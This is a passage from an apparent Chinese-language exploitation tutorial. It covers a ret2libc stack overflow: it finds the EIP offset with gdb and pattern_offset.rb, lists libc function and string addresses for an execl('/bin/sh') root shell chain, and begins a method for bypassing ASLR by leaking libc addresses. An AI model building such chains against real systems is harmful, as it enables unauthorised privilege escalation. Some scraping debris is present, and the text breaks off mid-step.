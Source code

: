 (省略部分输入数据) 回车之后，gdb输出如下错误数据： 

```
Program received signal SIGSEGV, Segmentation fault. 0x61413661 in ?? () Traceback (most recent call last): File "&lt;string&gt;", line 701, in lines File "&lt;string&gt;", line 116, in run gdb.error: No function contains program counter for selected frame.
```

显然，目标程序去执行0x61413661的地址时发生错误，这个地址就是被我们使用攻击buffer覆盖后的EIP地址，现在我们使用pattern_offset.rb查找这个地址在攻击buffer中的位置：

```
#!bash
[[email protected]](/cdn-cgi/l/email-protection)
```

:~/security/flaws/return2libc$ pattern_offset.rb 0x61413661 250 [*] Exact match at offset 19

好了，现在我们已经确定了用于覆盖的EIP的数据在攻击buffer中的偏移值为19，下面就开始精心构造攻击buffer了。

### 4.2 构建攻击buffer

从前文的分析知道，要使用execl完成基于ret2libc的root提权攻击，我们需要实现搜集如下数据信息：

1.  printf函数的地址，以及printf函数要使用的字符串’%5$n’的地址；

2.  execl函数的地址，以及该函数使用的’/bin/sh’字符串的地址；

3.  exit函数的地址；

4.  POP/RET 指令块的地址。

    ```
    Printf 0xb7e63280 Execl 0xb7ecbec0 Exit 0xb7e491e0 ‘%5$n’ 0xbffff2b6 ‘/bin/sh’ 0xbffffa6e POP/RET 0x080484af Addr of NULL 0xbfffefc9+18+4*7=0xbfffeff7
    ```

获取了这些数据之后，将它们各自安插到图3-1的合适位置即可构造对应的攻击buffer。

```
19字节overflow| 0xb7e63280 | 0x080484af | 0xbffff284 | 
   0xb7ecbec0 | 0xb7e491e0 | 0xbffffeea | 0xbffffeea | 0xbfffeff7 
```

## 0x05 对抗ASLR

鉴于ASLR机制只是将既然stack，heap以及共享库文件的起始地址进行了随机化，而文件内部各部分数据之间的偏移值却是固定不变的，所以攻击的整体思路如下：

先泄漏出libc.so某些函数在内存中的地址，然后再利用泄漏出的函数地址根据偏移量计算出system()函数等其他函数的地址，字符串地址类似。

那么怎么才能泄露出Libc库文件的地址呢？考虑到程序本身在内存中的地址并不是随机的，所以只要将返回值设置到程序本身所处的内存段就可以了，当然， **前提是我们必须获取目标系统中的libc.so库文件** 。Linux内存随机化分布图如下图所示：

![](http://img2.tuicool.com/IjIV7zJ.jpg!web)

整体攻击思路：

1.观察目标程序，查看其本身使用的、处于Libc库文件的库函数，常见的函数有write, read等；

观察方法很简单：
